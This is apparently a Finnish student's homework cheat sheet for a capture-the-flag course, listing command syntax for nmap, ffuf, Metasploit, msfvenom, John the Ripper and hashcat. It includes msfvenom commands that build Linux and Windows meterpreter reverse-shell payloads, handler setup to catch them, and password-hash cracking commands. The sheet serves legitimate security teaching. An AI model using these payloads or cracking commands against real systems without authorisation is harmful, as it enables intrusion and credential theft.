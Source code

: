 # a) Cheatsheet. Kerää parhaat komennot lipunryöstöä varten. Lähteinä voit käyttää omia ja kurssikavereiden läksyraportteja, vanhoja cheatsheet:eja sekä vierailijoiden kalvoja. (Kerää nimenomaan ne komennot ja sisältö, ei pelkkää linkkilistaa, ei pelkkää kuvailua. Tässä alakohdassa komentoja ei tarvitse kokeilla koneella).

NMAP
| Syntax | Description |
| :--- | ---: |
| nmap -A -p- <'ip-address'> | Laaja porttiskannaus kaikille portille 1-65535 kohde IP koneelle. |
| nmap <'ip-address'> | Perusmuotoinen TCP SYN skannaus yleisimmille porteille 1-1000 kohde IP koneelle. |
| nmap --top-ports <'n'> <'ip-address'> | Perusmuotoinen skannaus yleisimmille 'n' määrälle porteille. Yleensä 1000. |  

FFUF
| Syntax | Description |
| :--- | ---: |
| ./ffuf -w common.txt -u http://kohdeURL/FUZZ | -w käyttää common.txt worlistia fuzzaamiseen, -u syötetään fuzzattava URL |
| ./ffuf -w common.txt -u http://kohdeURL/FUZZ -fc; -fl; -fmode; -fr; -fs; -ft; -fw | Filtterit : c > HTTP stat codes, l > lines, mode > parameters, r > regexp, s > size, t > time, w > wordcount |


METASPLOIT FRAMEWORK
| Syntax | Description |
| :--- | ---: |
| jobs -l ; -k | -l listaa käynnissä olevat tehtävät ja -k pysäyttävät ne. |
| sessions -l ; -i | -l listaa käynnissä olevat meterpreter sessiot ja -i ottaa siihen yhteyden |
| show -h  | Näyttävät vaihtoehdot mitä voidaan näyttää esim. payloads, exploits, plugins jne. |

METASPLOIT/MULTI/HANDLER
| Syntax | Description |
| :--- | ---: |
| use exploit/multi/handler | Payload handlerin käyttö |
| set PAYLOAD; LHOST; LPORT; ExitOnSession; run | Multi-handler parametrien asetukset |

MSFVENOM 
| Syntax | Description |
| :--- | ---: |
| msfvenom -p <'PAYLOAD'> -f <'Filetype'> LHOST= <'localhost-ip'> LPORT= <'listeningport'> > <'output-filename'> | msfvenom payloadin generointi |
| msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf | Linux reverse-tcp payload generointi |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe | Windows reverse-tcp payload generointi |


JOHN THE RIPPER
| Syntax | Description |
| :--- | ---: |
| ./john/run/<'module-name'> > 'output-file.hash' | Ajaa run hakemistosta valitun moduulin joka ottaa hash tiedon ja ulostaa sen toiseen tiedostoon |
| ./john/run/john <'finlename.hash'> | Aloittaa hashin murtamista |

HASHCAT / HASHID
| Syntax | Description |
| :--- | ---: |
| hashid -m <'hash'> | Analysoi hashin ja sen mahdollista tyyppiä |
| hashcat -m <'mode-number'> <'hash'> <'wordlist.txt'> -o <'outputfile'> | -m kertoo hashmoden ja wordlistiin syötetään esim rockyou.txt ja -o ulostaa murretun hashin erilliseen tiedostoon. |
